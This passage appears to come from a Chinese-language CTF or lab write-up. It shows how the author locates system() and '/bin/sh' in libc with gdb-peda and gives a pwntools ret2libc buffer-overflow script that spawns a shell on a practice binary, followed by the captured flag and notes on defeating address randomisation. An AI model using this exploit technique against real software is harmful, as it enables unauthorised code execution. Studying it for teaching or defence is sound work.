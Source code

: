 ```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f59dc8 ("/bin/sh")
gdb-peda$ x /s 0xb7f59dc8
0xb7f59dc8:	"/bin/sh"
gdb-peda$ 
```

我们首先在main函数上下一个断点，然后执行程序，这样的话程序会加载libc.so到内存中，先用`print system`找到system的地址，然后我们直接通过find命令来查找”/bin/sh”这个字符串。这样我们就得到了system的地址`0xb7e37b30`以及"/bin/sh"的地址`0xb7f59dc8`。

脚本如下：
```
#!/usr/bin/env python
from pwn import *

p = process('./level2')
#p = remote('127.0.0.1',10002)

ret = 0xdeadbeef #返回地址
systemaddr=0xb7e37b30
binshaddr=0xb7f59dc8

payload =  'A'*140 + p32(systemaddr) + p32(ret) + p32(binshaddr)

p.send(payload)

p.interactive()
```

要注意的是system()后面跟的是执行完system函数后要返回地址，接下来才是”/bin/sh”字符串的地址。
运行结果：

<img src="/images/posts/ROP--x86/1523071849009.png" > 

flag{easy_Ret2libc_Byp@ss_DEP}

### 绕EIP

在同一道题目上绕EIP

开启EIP
```
sudo -s 
echo 2 > /proc/sys/kernel/randomize_va_space
```
**问题**:直接gcc编译的时候没有开启pie，而是用`echo 2 > /proc/sys/kernel/randomize_va_space`的办法来做是不会出错，但是如果使用gcc编译的时候就开启pie的话即会运行失败。地址也只是一个很小的数。这两者有什么区别？？？
